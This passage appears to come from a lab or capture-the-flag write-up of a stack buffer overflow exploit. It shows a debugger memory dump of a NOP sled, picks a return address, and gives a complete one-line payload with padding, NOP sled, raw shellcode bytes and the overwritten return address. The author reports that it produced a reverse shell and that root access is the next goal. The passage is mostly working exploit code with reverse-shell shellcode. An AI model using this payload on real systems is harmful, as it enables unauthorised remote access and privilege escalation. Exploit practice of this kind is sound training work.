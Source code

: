 ```shell-session
0xffffd654:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd65c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd664:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd66c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd674:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd67c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd684:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd68c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90  
0xffffd694:     0x90    0x90    0x90    0x90    0x90    0xbe    0xb3    0x33  
						 # |---> Shellcode
<SNIP>
```

Lets pick a adress  for our EIP. 
0xffffd684
```shell-session
run $(python -c 'print "\x55" * (2064 - 124 - 95 - 4) + "\x90" * 124 + "\xbe\xb3\x33\xd8\xbf\xdb\xcc\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x12\x83\xeb\xfc\x31\x73\x0e\x03\xc0\x3d\x3a\x4a\x17\x99\x4d\x56\x04\x5e\xe1\xf3\xa8\xe9\xe4\xb4\xca\x24\x66\x27\x4b\x07\x58\x85\xeb\x2e\xde\xec\x83\xba\x2a\x01\x60\xd3\x28\x1d\x9c\x29\xa4\xfc\x10\x4b\xe6\xaf\x03\x27\x05\xd9\x42\x8a\x8a\x8b\xec\x7b\xa4\x58\x84\xeb\x95\xb1\x36\x85\x60\x2e\xe4\x06\xfa\x50\xb8\xa2\x31\x12" + "\x84\xd6\xff\xff"')
```

We got reverse shell. now I need access as root. 
